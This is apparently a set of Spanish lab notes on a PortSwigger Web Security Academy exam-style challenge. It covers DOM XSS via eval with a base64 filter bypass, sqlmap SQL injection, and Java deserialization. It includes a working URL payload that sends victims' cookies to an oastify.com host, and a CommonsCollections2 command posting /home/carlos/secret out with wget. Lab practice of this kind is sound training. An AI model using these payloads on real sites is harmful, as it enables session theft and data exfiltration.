# Stage 1
DOM XSS, poniendo el canary XSS me la detecta :


Pero no me la auto explota:


Hay que leer que pasa para realizar el XSS manual. Sabemos que aqui hay DOM XSS casi 100%. Vemos donde esta llegando nuestro payload:



Se está haciendo uan asignación a searchResultsObj de toda la respuesta que nos da el server, que es esta:



Tenemos que hacer que this.responseText haga que el eval tenga un payload:

eval('var searchResultsObj = ' + TOCHOGORDO - alert(1));
Algo asi:


Y efectivamente:


Ahora no nos vale alert(1), queremos exfiltrar la cookie del usuario. Vamos a probar con document.cookie a ver si hay algún filtro:


Y si, hay algún filtro. vamos a ver dónde podemos saltarnos estos filtros en los labs. Botesjuan me salva la vida:




Vale, bypasseamos esta verificación. Ahora tenemos que exfiltrar esta cookie a un endpoint, podemos usar fetch: 


Pero nos lo detecta. Vamos a hacer un encodeo de todo esto:

`fetch(https://p1rsbtma2mdv1z9lu3qdd4vwbnhe55tu.oastify.com/?json=+%20document["cookie"%20]))//`

lo encodeamos y hacemos eval(atob(base64)), manera de bypassear una verificación de strings:


`https://0af90096035988ca801717b100f300e8.web-security-academy.net/?SearchTerm=whatever%22}-eval(atob(%22ZmV0Y2goYGh0dHBzOi8vcDFyc2J0bWEybWR2MXo5bHUzcWRkNHZ3Ym5oZTU1dHUub2FzdGlmeS5jb20vP2pzb249YCtkb2N1bWVudFsiY29va2llIl0p%22))//`
Recibimos la cookie nuestra:


De lujo, ahora toca hacer un iframe o script y holdear esta url que es la que queremos que visite el user:


Nos llega esa cookie que no es nuestra sino del user. La reemplazamos para las futuras request.

Stage 2: hay busqueda avanzada. probablemente SQLi. Si no nos sale en SQLmap, probar otras cosas. La SQLi puede NO SER EN search term y tambien ser en una cookie llamada trackingId, ojo.


en ese término no hay sqli. Voy a probar con organize_by:


Sí que lo detecta el análisis cuando seleccionamos el insertion point:

Pasandole la request a sqmap y insertando ese insertion point, al rato (10 MINS) lo detecta:

Primero --dbs, luego -D `<database>` y --tables y finalmente -D `<database>` -T `<TABLA>`

Ya tenemos la password de admin:

Vemos que el panel /admin da poca info, pero el host nos da una cookie que nosotros usamos en las siguientes request:

Cookie chunga: posible serializacion de datos (si no está encodeado). Tiene pinta de que testá base64 y luego encoded:

Cyberchef nos dice que sí, y qued además, es un tipo de archivo gzip. 
Nos vamos a BurpSuite, cogemos el parámetro y click derecho y lo llevamos a Deserialization Scanner (la extensión).
COmo el parámetro está hecho a gzip, luego base64 y luego decodeado, lo tenemos que añadir al revés, es decir, decodado, base64, gzip
IMPORTANTE SELECCIONAR DNS, no SLEEP, que con DNS exfiltramos datos:

Y ahora llevamos la misma request a la ventana de exploit:

Ponemos el mismo flujo (gzip, base, urlencode) y el siguiente payload:
`CommonsCollections2 '/usr/bin/wget --post-file /home/carlos/secret https://eweh6ihzxb8kwo4apsl28tql6cc40xom.oastify.com' `
HE USADO EL 2 PORQUE ES EL QUE DAN EN LOS LABS, PERO SI NO PROBARIA CON TODOS LOS OTROS A VER SI CUELA.
